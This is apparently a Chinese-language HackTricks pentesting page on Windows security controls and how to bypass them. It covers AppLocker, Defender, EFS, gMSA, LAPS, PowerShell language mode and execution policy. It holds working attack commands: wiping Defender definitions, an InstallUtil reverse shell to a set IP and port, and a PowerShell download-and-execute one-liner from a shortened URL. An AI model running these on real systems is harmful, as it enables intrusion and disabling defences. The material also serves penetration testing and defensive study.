

Windows Security Controls
{% hint style="success" %}
学习与实践 AWS 黑客技术： HackTricks 培训 AWS 红队专家 (ARTE)
HackTricks 培训 AWS 红队专家 (ARTE)
学习与实践 GCP 黑客技术： HackTricks 培训 GCP 红队专家 (GRTE)
HackTricks 培训 GCP 红队专家 (GRTE)
支持 HackTricks
- 查看 订阅计划!
- 加入 💬 Discord 群组 或 Telegram 群组 或 关注 我们的 Twitter 🐦 @hacktricks_live.
- 通过向 HackTricks 和 HackTricks Cloud GitHub 仓库提交 PR 分享黑客技巧。
.png)
使用 Trickest 轻松构建和 自动化工作流，由世界上 最先进 的社区工具提供支持。
今天就获取访问权限：
{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}
AppLocker 策略
应用程序白名单是一个经过批准的软件应用程序或可执行文件的列表，这些程序被允许在系统上存在和运行。其目标是保护环境免受有害恶意软件和不符合组织特定业务需求的未批准软件的影响。
AppLocker 是微软的 应用程序白名单解决方案，为系统管理员提供对 用户可以运行哪些应用程序和文件 的控制。它提供对可执行文件、脚本、Windows 安装程序文件、DLL、打包应用程序和打包应用程序安装程序的 细粒度控制。
组织通常会 阻止 cmd.exe 和 PowerShell.exe 以及对某些目录的写入访问，但这一切都可以被绕过。
检查
检查哪些文件/扩展名被列入黑名单/白名单：
Get-ApplockerPolicy -Effective -xml
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
$a = Get-ApplockerPolicy -effective
$a.rulecollections
此注册表路径包含由 AppLocker 应用的配置和策略，提供了一种查看系统上强制执行的当前规则集的方法：
HKLM\Software\Policies\Microsoft\Windows\SrpV2
绕过
- 有用的 可写文件夹 用于绕过 AppLocker 策略：如果 AppLocker 允许在
C:\Windows\System32或C:\Windows内执行任何内容，则可以使用 可写文件夹 来 绕过此限制。
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\drivers\color
C:\Windows\Tasks
C:\windows\tracing
- 常见的 trusted "LOLBAS's" 二进制文件也可以用于绕过 AppLocker。
- 编写不当的规则也可能被绕过
- 例如，
<FilePathCondition Path="%OSDRIVE%*\allowed*"/>，您可以在任何地方创建一个 名为allowed的文件夹，它将被允许。 - 组织通常还专注于 阻止
%System32%\WindowsPowerShell\v1.0\powershell.exe可执行文件，但忘记了 其他 PowerShell 可执行文件位置，例如%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe或PowerShell_ISE.exe。 - DLL 强制执行很少启用，因为它可能对系统造成额外负担，并且需要大量测试以确保不会出现故障。因此，使用 DLL 作为后门将有助于绕过 AppLocker。
- 您可以使用 ReflectivePick 或 SharpPick 在任何进程中 执行 Powershell 代码并绕过 AppLocker。有关更多信息，请查看: https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode。
凭据存储
安全账户管理器 (SAM)
本地凭据存储在此文件中，密码经过哈希处理。
本地安全机构 (LSA) - LSASS
凭据（哈希）被 保存 在此子系统的 内存 中，以实现单点登录。
LSA 管理本地 安全策略（密码策略、用户权限...）、身份验证、访问令牌...
LSA 将是 检查 提供的凭据的 SAM 文件（用于本地登录）并 与 域控制器 通信 以验证域用户。
凭据 被 保存 在 进程 LSASS 中：Kerberos 票证、NT 和 LM 哈希、易于解密的密码。
LSA 秘密
LSA 可能会在磁盘上保存一些凭据：
- Active Directory 的计算机账户密码（无法访问的域控制器）。
- Windows 服务账户的密码
- 计划任务的密码
- 更多（IIS 应用程序的密码...）
NTDS.dit
这是 Active Directory 的数据库。它仅存在于域控制器中。
Defender
Microsoft Defender 是 Windows 10 和 Windows 11 以及 Windows Server 版本中可用的防病毒软件。它 阻止 常见的 pentesting 工具，如 WinPEAS。然而，有方法可以 绕过这些保护。
检查
要检查 Defender 的 状态，您可以执行 PS cmdlet Get-MpComputerStatus（检查 RealTimeProtectionEnabled 的值以了解它是否处于活动状态）：
PS C:\> Get-MpComputerStatus
[...]
AntispywareEnabled : True
AntispywareSignatureAge : 1
AntispywareSignatureLastUpdated : 12/6/2021 10:14:23 AM
AntispywareSignatureVersion : 1.323.392.0
AntivirusEnabled : True
[...]
NISEnabled : False
NISEngineVersion : 0.0.0.0
[...]
RealTimeProtectionEnabled : True
RealTimeScanDirection : 0
PSComputerName :
要枚举它，您还可以运行：
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
wmic /namespace:\\root\securitycenter2 path antivirusproduct
sc query windefend
#Delete all rules of Defender (useful for machines without internet access)
"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
加密文件系统 (EFS)
EFS 通过加密保护文件，利用称为 文件加密密钥 (FEK) 的 对称密钥。该密钥使用用户的 公钥 进行加密，并存储在加密文件的 $EFS 替代数据流 中。当需要解密时，使用用户数字证书的相应 私钥 从 $EFS 流中解密 FEK。更多详细信息可以在 这里 找到。
无需用户启动的解密场景 包括：
- 当文件或文件夹被移动到非 EFS 文件系统（如 FAT32）时，它们会自动解密。
- 通过 SMB/CIFS 协议在网络上传输的加密文件在传输前会被解密。
这种加密方法允许所有者对加密文件进行 透明访问。然而，仅仅更改所有者的密码并登录并不能允许解密。
关键要点：
- EFS 使用对称 FEK，使用用户的公钥进行加密。
- 解密使用用户的私钥访问 FEK。
- 在特定条件下会自动解密，例如复制到 FAT32 或网络传输。
- 加密文件对所有者可访问，无需额外步骤。
检查 EFS 信息
检查 用户 是否 使用 了此 服务，检查此路径是否存在：C:\users\<username>\appdata\roaming\Microsoft\Protect
使用 cipher /c <file> 检查 谁 有 访问 文件的权限
您还可以在文件夹内使用 cipher /e 和 cipher /d 来 加密 和 解密 所有文件
解密 EFS 文件
成为权限系统
这种方式要求 受害者用户 在主机内 运行 一个 进程。如果是这种情况，使用 meterpreter 会话，您可以模拟用户进程的令牌（incognito 中的 impersonate_token）。或者您可以直接 migrate 到用户的进程。
知道用户密码
{% embed url="https://github.com/gentilkiwi/mimikatz/wiki/howto-~-decrypt-EFS-files" %}
组管理服务账户 (gMSA)
微软开发了 组管理服务账户 (gMSA) 以简化 IT 基础设施中服务账户的管理。与传统的服务账户（通常启用“密码永不过期”设置）不同，gMSA 提供了更安全和可管理的解决方案：
- 自动密码管理：gMSA 使用复杂的 240 字符密码，自动根据域或计算机策略进行更改。此过程由微软的密钥分发服务 (KDC) 处理，消除了手动更新密码的需要。
- 增强安全性：这些账户免受锁定，并且不能用于交互式登录，从而增强了安全性。
- 多主机支持：gMSA 可以在多个主机之间共享，非常适合在多个服务器上运行的服务。
- 计划任务能力：与管理服务账户不同，gMSA 支持运行计划任务。
- 简化 SPN 管理：当计算机的 sAMaccount 详细信息或 DNS 名称发生更改时，系统会自动更新服务主体名称 (SPN)，简化 SPN 管理。
gMSA 的密码存储在 LDAP 属性 msDS-ManagedPassword 中，并由域控制器 (DC) 每 30 天自动重置一次。此密码是一个称为 MSDS-MANAGEDPASSWORD_BLOB 的加密数据块，仅可由授权管理员和安装 gMSA 的服务器检索，从而确保安全环境。要访问此信息，需要安全连接，例如 LDAPS，或者连接必须经过“密封和安全”身份验证。

您可以使用 GMSAPasswordReader**：
/GMSAPasswordReader --AccountName jkohler
此外，请查看此网页关于如何执行NTLM中继攻击以读取 gMSA的密码。
LAPS
本地管理员密码解决方案（LAPS），可从Microsoft下载，允许管理本地管理员密码。这些密码是随机生成、唯一且定期更改的，集中存储在Active Directory中。对这些密码的访问通过ACL限制为授权用户。授予足够的权限后，可以读取本地管理员密码。
{% content-ref url="../active-directory-methodology/laps.md" %} laps.md {% endcontent-ref %}
PS受限语言模式
PowerShell 受限语言模式 锁定了许多有效使用PowerShell所需的功能，例如阻止COM对象，仅允许批准的.NET类型、基于XAML的工作流、PowerShell类等。
检查
$ExecutionContext.SessionState.LanguageMode
#Values could be: FullLanguage or ConstrainedLanguage
绕过
#Easy bypass
Powershell -version 2
在当前的Windows中，绕过方法将不起作用，但您可以使用 PSByPassCLM。
要编译它，您可能需要 添加引用 -> 浏览 -> 浏览 -> 添加 C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0\31bf3856ad364e35\System.Management.Automation.dll 并将项目更改为 .Net4.5。
直接绕过：
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
反向 shell:
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
您可以使用 ReflectivePick 或 SharpPick 来 执行 Powershell 代码在任何进程中并绕过受限模式。有关更多信息，请查看: https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode。
PS 执行策略
默认情况下，它设置为 restricted. 绕过此策略的主要方法：
1º Just copy and paste inside the interactive PS console
2º Read en Exec
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
3º Read and Exec
Get-Content .runme.ps1 | Invoke-Expression
4º Use other execution policy
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
5º Change users execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
6º Change execution policy for this session
Set-ExecutionPolicy Bypass -Scope Process
7º Download and execute:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
8º Use command switch
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
9º Use EncodeCommand
$command = "Write-Host 'My voice is my passport, verify me.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
更多信息可以在 这里 找到。
安全支持提供者接口 (SSPI)
是用于验证用户的 API。
SSPI 将负责为想要通信的两台机器找到合适的协议。首选的方法是 Kerberos。然后，SSPI 将协商使用哪个身份验证协议，这些身份验证协议称为安全支持提供者 (SSP)，以 DLL 的形式位于每台 Windows 机器内部，并且两台机器必须支持相同的协议才能进行通信。
主要 SSPs
- Kerberos: 首选
- %windir%\Windows\System32\kerberos.dll
- NTLMv1 和 NTLMv2: 兼容性原因
- %windir%\Windows\System32\msv1_0.dll
- Digest: Web 服务器和 LDAP，密码以 MD5 哈希形式存在
- %windir%\Windows\System32\Wdigest.dll
- Schannel: SSL 和 TLS
- %windir%\Windows\System32\Schannel.dll
- Negotiate: 用于协商使用的协议（Kerberos 或 NTLM，默认是 Kerberos）
- %windir%\Windows\System32\lsasrv.dll
协商可以提供多种方法或仅提供一种。
UAC - 用户帐户控制
用户帐户控制 (UAC) 是一个启用 提升活动的同意提示 的功能。
{% content-ref url="uac-user-account-control.md" %} uac-user-account-control.md {% endcontent-ref %}
使用 Trickest 轻松构建和 自动化工作流，由世界上 最先进 的社区工具提供支持。
立即获取访问权限：
{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}
{% hint style="success" %}
学习和实践 AWS 黑客攻击：HackTricks 培训 AWS 红队专家 (ARTE)
学习和实践 GCP 黑客攻击：HackTricks 培训 GCP 红队专家 (GRTE)
支持 HackTricks
- 查看 订阅计划!
- 加入 💬 Discord 群组 或 Telegram 群组 或 在 Twitter 上关注 🐦 @hacktricks_live.
- 通过向 HackTricks 和 HackTricks Cloud GitHub 仓库提交 PR 来分享黑客技巧。